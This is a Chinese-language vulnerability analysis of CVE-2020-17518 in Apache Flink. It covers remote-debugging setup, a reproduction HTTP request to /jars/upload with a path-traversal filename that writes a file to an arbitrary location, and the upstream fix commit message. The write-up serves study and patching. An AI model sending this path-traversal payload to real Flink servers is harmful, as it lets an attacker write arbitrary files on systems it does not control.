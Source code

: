  
 
**远程调试：**

通过更改本地IDEA的Debug参数来对flink服务器进行远程调试
 
必须确保服务器本地的JDK版本与Debug参数配置所选的JDK版本一致，否则会导致连接失败
   
连接成功后，开启远程调试

**CVE-2020-17518（1.5.1 <= Apache Flink  <= 1.11.2）**

Flink 在 1.5.1 版本中引入了一个 REST handler，这允许攻击者将已上传的文件写入本地任意位置的文件中，并且可通过一个恶意修改的 HTTP 头将这些文件写入到 Flink 1.5.1 可以访问的任意位置。

**漏洞复现：**

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------13247690941547071692111317477
Content-Length: 244
Connection: close


-----------------------------13247690941547071692111317477
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/test"
Content-Type: text/plain


test
-----------------------------13247690941547071692111317477-
```

**漏洞分析：**

通过apache官方邮件找到commit地址

```
[hotfix][runtime] A customized filename can be specified through Cont…

…ent-Disposition that also allows passing of path information which was not properly handled. This is fixed now.

We just use the filename instead of interpreting any path information that was passed through a custom filename. Two tests were added to verify the proper behavior:
1. a custom filename without path information was used
2. a custom filename with path information was used

The change required adapting the MultipartUploadResource in a way that it is used not as a @ClassRule but as a @rule instead. This enables us to initialize it differently on a per-test level. The change makes the verification of the uploaded files configurable.`
```
